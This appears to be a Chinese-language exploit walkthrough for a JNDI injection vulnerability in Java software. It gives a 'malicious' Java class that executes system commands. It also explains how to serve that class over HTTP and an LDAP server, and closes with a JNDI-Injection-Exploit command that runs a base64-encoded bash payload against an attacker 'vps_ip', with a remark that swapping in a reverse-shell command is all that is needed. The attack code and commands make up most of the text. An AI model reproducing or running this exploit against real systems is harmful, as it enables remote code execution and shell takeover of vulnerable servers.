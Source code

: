 ![image](https://user-images.githubusercontent.com/84888757/162133243-22ca3f03-3133-4830-a65c-aff0776c368b.png)

编写恶意java文件
- CalcPoc.java
```
import java.lang.Runtime;
import java.lang.Process;


public class CalcPoc{
  public CalcPoc() {
    try {
      System.out.println("--- 漏洞代码开始执行 ---");
      String[] commands = {"open", "/System/Applications/Calculator.app"}; // 启动系统计算器
      Process pc = Runtime.getRuntime().exec(commands);
      pc.waitFor();
      System.out.println("--- 漏洞代码完成执行 ---");
    } catch (Exception e) {
      e.printStackTrace();
    }
  }
}
```

编译恶意类：javac CalcPoc.java

开启http服务以便获取恶意类

![image](https://user-images.githubusercontent.com/84888757/162133467-257568c0-be52-4cf5-9e17-ecb2f4b8be08.png)

运行漏洞代码，成功：

![image](https://user-images.githubusercontent.com/84888757/162133521-aed18334-ff6b-485f-afa6-ca841d00093f.png)

![image](https://user-images.githubusercontent.com/84888757/162133637-9277cd02-f308-4b96-8f83-aab854bd0fe1.png)

![image](https://user-images.githubusercontent.com/84888757/162133703-4a52dd3e-ae90-49dd-91e7-2212a662102c.png)

如果想反弹shell，你只需要修改恶意类中的命令即可。

这里为了便于理解利用流程，复现时使用了marsharsec工具起LDAP服务，并且再起了http服务存放恶意类。

在实际利用时，可以使用[JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit/releases)工具，更加方便。
```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,base64编码后的命令}|{base64,-d}|{bash,-i}" -A "vps_ip"
```

![image](https://user-images.githubusercontent.com/84888757/165697356-40406213-ecb8-4432-8c1a-314adad199c9.png)

![image](https://user-images.githubusercontent.com/84888757/165697563-ad29bb0b-3434-434e-aca4-b4cabb13c8a0.png)

![image](https://user-images.githubusercontent.com/84888757/165697719-9b3687ab-07eb-40f1-a59e-28fc746cf3ad.png)
